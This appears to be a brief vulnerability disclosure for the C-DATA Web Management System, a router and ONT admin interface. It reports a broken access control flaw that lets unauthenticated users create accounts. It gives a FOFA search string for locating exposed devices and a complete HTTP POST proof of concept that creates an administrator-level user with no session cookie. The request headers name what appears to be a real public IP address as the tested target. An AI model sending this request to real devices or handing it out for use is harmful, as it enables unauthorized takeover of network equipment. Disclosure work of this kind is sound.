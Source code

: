 ## C-DATA Web Management System Arbitrary User Create

C-DATA Web Management System has a broken access control, which will result in arbitrary user create.
fofa: title=="Wi-Fi Web管理"

POC below：

```
POST /cgi-bin/jumpto.php?class=user&page=config_save&isphp=1 HTTP/1.1
Host: ********
Content-Length: 64
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://176.118.126.224
Referer: http://176.118.126.224/cgi-bin/jumpto.php?class=system&page=ls
Accept-Language: zh-CN,zh;q=0.9
Connection: close

call_function=user&opt=3&user=foofoo&level=2&newpassword=foofoo123

```

![image](https://github.com/sleepyvv/vul_report/assets/55875284/f6f9d46d-322c-4283-83ac-11898414aeb3)

Note: no cookie in the request header 

Then we can see the user is successfully created.

![image](https://github.com/sleepyvv/vul_report/assets/55875284/5c3ab103-8af8-4a43-9606-9d2313c82e19)
